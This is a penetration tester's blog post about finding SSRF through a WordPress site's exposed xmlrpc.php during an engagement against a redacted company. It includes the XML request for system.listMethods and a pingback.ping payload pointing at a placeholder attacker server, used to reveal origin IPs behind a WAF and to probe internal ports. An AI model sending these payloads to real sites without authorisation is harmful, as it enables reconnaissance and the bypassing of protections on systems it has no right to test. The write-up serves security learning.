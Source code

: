 ```yaml
---
title: How I Hacked A Billion Dollar Company
published: true
---
```

Hi Hackers, Today article is about how i hacked into a Billion dollar company i.e. SSRF via xmlrpc.php. I always wanted to find an SSRF in a website who knew i would find it during my pentest. I wouldn't disclose the company name so lets just call it redacted (Ofcourse :p).

I was assigned a task to pentest this company and i was issued a url https://redacted.com. I did how normally a web penetration testing goes, running my bash one-liners in order to get the subdomains and then running paramspider in order to get the parameters etc. Usually when i hunt for bugs, i go for targeting the subdomains because they are more vulnerable and ofcourse a less travelled path is more vulnerable. However the application itself was very strong and very hard to exploit. It took me days and i was suffering from burnouts. Until i found that the main domain which only consists of company blogs is running on wordpress. The first idea i got was i should run WPScan and i found that the version they are running on is old. I was like finally.
<p align="center">
  <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/hacked_Billion_Dollar_Company/Yes_image.jpg"/>
</p>
I went to the main domain and entered the url path of xmlrpc.php to see if it is leaking and YES IT WAS :D.   
But what is xmlrpc.php?   
XML-RPC aka is a XML remote procedure call protocol which encodes its calls.In short form, it is a file which is used for pulling POST data from a website using RPC.In a wordpress application, it is an API which allows the developers in order to manipulate the wordpress website for instance publishing a post, Editing a post, deleting or even to upload files.   
Anyways, i fired up my burp in order to intercept the request of the url. The url was **https://redacted.com/xmlrpc.php**.   
1) As soon as i intercepted the request, i send it to repeater and changed the request from GET to POST because xmlrpc only accepts POST request   
2) We need to fetch the list of methods in order to know which methods are available for a potential attack. I was mainly looking for pingback.ping method if it is available as that would lead me to a potential SSRF. I added the following code in the POST request in order to list the methods. 
```<methodCall>```   
```<methodName>system.listMethods</methodName>```   
```<params></params>```   
```</methodCall>```      
<p align="center">   
  <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/hacked_Billion_Dollar_Company/ssrf_1.jpg">
</p>       
3) From the screenshot above, we can see pingback.ping function is available. This could allow an attacker to initiate a request from the wordpress site to an arbitrary site. With pingback.ping function, we could abuse the system to diclose the real IP of the application that is sitting behind the WAF thus also bypassing firewall.
Thus with SSRF via pingback.ping function, we could scan the internal network to check which ports are open and directly attack the internal network. The following code was used in order to get the ping back to our server     
```<methodCall>```   
```<methodName>pingback.ping</methodName>```
```<params><param>```   
```<value><string>http://<YOUR SERVER>:<port></string></value>```   
```</param><param>```   
```<value><string>http://redacted.com/business/<string></value>```   
```</param></params>```      
```</methodCall>```   
Where the "YOUR SERVER" is the ip address of the attacker server and "port" is the port of the attacker server that is listening on. The "http://redacted.com/business" is the valid blog that is linked to the target application. I used pingb.in as my server in order to check the logs
<p align="center">
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/hacked_Billion_Dollar_Company/ssrf_2.jpg"/>
</p>   
4) We then send the modified request to the target application. However, if the value is greater than 0 then the port is open. Looking at the server side, we see numerous IP addresses that were disclosed that belonged to the target Application. Thus bypassing all security mechanisms and being exposed to an attack
<p align="center">
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/hacked_Billion_Dollar_Company/ssrf_3.jpg">
</p>

